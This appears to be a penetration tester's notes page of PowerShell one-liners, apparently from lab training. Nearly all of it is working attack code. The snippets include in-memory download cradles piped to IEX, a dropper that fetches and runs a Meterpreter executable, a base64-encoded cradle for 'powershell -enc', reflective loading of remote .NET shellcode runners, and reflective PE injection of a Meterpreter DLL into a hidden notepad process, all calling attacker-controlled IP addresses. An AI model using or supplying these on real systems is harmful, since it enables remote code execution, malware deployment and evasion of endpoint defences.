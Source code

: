 ## Oneliners


### Powershell
#ps1 #runner #cradle
Download cradle in memory:
```powershell
(New-Object System.Net.WebClient).DownloadString("http://192.168.49.155/run.txt") | IEX
```

#ps1 #runner #cradle #dropper #exe
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.186/met64.exe', 'C:\Windows\Tasks\met64.exe'); C:\Windows\Tasks\met64.exe
```


#ps1 #encoding #cradle
Encode download cradle:
```powershell
$text = "<download cradle>"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
# then to execute use powershell -enc <encoded_text>
powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADEANQA1AC8AcgB1AG4ALgB0AHgAdAAiACkAIAB8ACAASQBFAFgA
```

#ps1 #encoding #hex #assembly
```powershell
$assemblyFile = "<path_to_assembly>"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$stringBuilder.Append("0x")
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
	$stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$hexDll = $stringBuilder.ToString() -join ""
$hexDll | Out-File C:\Users\Administrator\Desktop\hex.txt
```

^6217c2


#ps1 #reflection #runner 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.155/simple-runner.exe')
# If your class and method is public
$assem = [System.Reflection.Assembly]::Load($data)
[shellcode_runner_simple.Program]::Main("".Split())
```

#ps1 #reflection #runner #dll #managed #dll-managed
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.73/ClassRunner.dll')

[System.Reflection.Assembly]::Load($data).GetType("ClassRunner.Class1").GetMethod("runner").Invoke(0, $null)
```

#ps1 #injection #reflective-injection #remote-injection #runner #dll #unmanaged #dll-unmanaged #msfvenom
```powershell
Start-Process "C:\Windows\system32\notepad.exe" -WindowStyle Hidden
$bytes = (New-Object System.Net.WebClient).DownloadData("http://192.168.49.66/met.dll")
$procid = (Get-Process -Name notepad).Id[0]

IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.49.66/Invoke-ReflectivePEInjection.ps1")

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```